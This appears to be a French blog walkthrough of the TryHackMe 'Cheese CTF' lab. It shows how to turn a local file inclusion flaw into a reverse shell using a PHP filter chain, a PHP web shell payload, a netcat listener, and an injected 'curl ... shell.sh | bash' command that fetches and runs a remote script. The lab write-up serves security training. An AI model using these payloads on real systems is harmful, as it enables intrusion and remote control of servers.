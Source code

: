 ```yaml
---
title: "TryHackMe Room Cheesectfv10"
seoTitle: "Cheesectfv10: Explore the TryHackMe Challenge"
seoDescription: "Learn how to gain shell access using reverse shells and PHP filter chains in the TryHackMe Cheese CTF Room"
datePublished: Tue May 06 2025 16:06:14 GMT+0000 (Coordinated Universal Time)
cuid: cmacpbxs0000109ikes4r0u3m
slug: tryhackme-room-cheesectfv10
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1746543221556/353365c1-1112-43c2-973d-890a1e22c750.png
tags: shell, cybersecurity-1, tryhackme, tryhackme-walkthrough, cheesectfv10

---
```


Lien de la room: [TryHackMe | Cheese CTF](https://tryhackme.com/room/cheesectfv10)

# Gain Shell Acces

## Avec le paramètre

1. Créer un fichier `shell.sh` pour mon script de reverse shell. On veut donc initier la connexion depuis la machine cible.
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544143626/615e08b3-a3e5-4eaa-91cc-19bea55574bf.png align="center")

2. Démarrer le listener netcat sur la machine principale pour écouter les connexions entrantes sur le port 4444
    

```bash
nc -lvnp 4444
```

3. Démarrer un serveur HTTP qui va contenir le fichier `shell.sh`. Le fichier doit être dans le le répertoire courant où vous exécutez la commande.
    

```bash
python -m http.server 8000
```

4. Utiliser l’outil [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator) pour générer la chaîne de filtres PHP
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544061591/53a75b57-8673-40b2-855d-4f3f19525946.png align="center")

Ici on utilise `'<?php system($_GET["cmd"]); ?>'` car on veut exécuter des commandes sur le serveur cible via le paramètre `cmd` dans l’URL. On veut exploiter une vulnérabilité de type Local File Inclusion LFI afin d’exécuter des commandes arbitraires sur la cible.

5. Modifier l’URL vulnérable pour y ajouter `la chaîne de filtres PHP générée` et le paramètre `cmd`.
    

URL de base: <mark>http://10.10.162.24/secret-script.php?file=php://filter/resource=users.html</mark>

Début de la chaîne de filtre: <mark> php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode</mark>

Fin de la chaîne de filtre: <mark>UTF8.UTF7|convert.base64-decode/resource=php://temp</mark>

On rajoute donc <mark>&amp;cmd=curl http://10.10.102.158:8000/shell.sh | bash</mark> à la fin de la chaîne de filtre et on obtient ainsi le reverse shell.

Le paramètre

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746547286658/cabf2748-9b25-4180-8215-00b55abacc29.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746545277448/eb5f10ea-c90f-4b52-865c-e53d93920002.png align="center")